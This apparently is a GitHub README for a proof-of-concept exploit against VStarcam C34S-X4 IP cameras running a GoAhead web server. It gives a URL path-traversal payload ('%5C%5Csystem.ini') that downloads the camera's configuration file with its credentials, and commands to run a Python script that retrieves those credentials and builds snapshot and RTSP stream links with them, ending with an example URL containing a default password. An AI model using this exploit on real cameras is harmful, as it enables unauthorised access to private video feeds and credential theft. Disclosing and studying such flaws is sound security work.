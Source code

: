 ## Authentication Treversal
The Vulnerability of GoAhead Service on VStarcam C34S-X4 that allows you to download system.ini configuration file and get login and password.
--
## !WARNING!
The author is trying to draw the attention of the developers to the problem and I am not responsible for the harm caused to you or by you.
--


# IMPLEMENTATION

Еo perform the vulnerability, you must log in to the camera interface without authorization. Then, after the forward slash, you must add %5C%5Csystem.ini
and the file will start downloading. When you open the file, you will see your username and password written together. I have already written a small program
that interacts with the ONVIF protocol and receives images from the camera and a link to the RTSP stream.

# STEPS
1) To use it you have to install [python3](https://www.python.org)
[onvif_zeep](https://github.com/FalkTannhaeuser/python-onvif-zeep) and [requests](https://pypi.org/project/requests/)
```sh
git clone https://github.com/Retr0-code/auth-treversal
pip3 install -r requirements.txt
chmod +x GetInfo.py
python3 GetInfo.py --help
```
<br>
2) You can go to you browser and enter this link <b>http://ip:port/%5C%5Csystem.ini</b>
(You must change ip to address of camera and port to port that web-server run on).
<br>
![alt text]()
<br>
Or you can use
<br>

```sh
python3 GetInfo.py --host <camera ip> --port <web-server port>
```

<br>
and than read as text downloaded file.
<br>
![alt text]()
<br>
3) Now you can log in to web-panel.
<br>
![alt text]()
Or you can use 
<br>

```sh
python3 GetInfo.py --onvif 10080 --host 192.168.0.58 --port 8888
```

<br>
and you get links to snapshots and RTSP stream link.
To get stream you have to specify login and password like this: <b>rtsp://username:password@ip:port/path/to/stream</b> In my case link looks like
this rtsp://admin:888888@192.168.0.58:554/udp/av0_1
<br>
![alt text]()

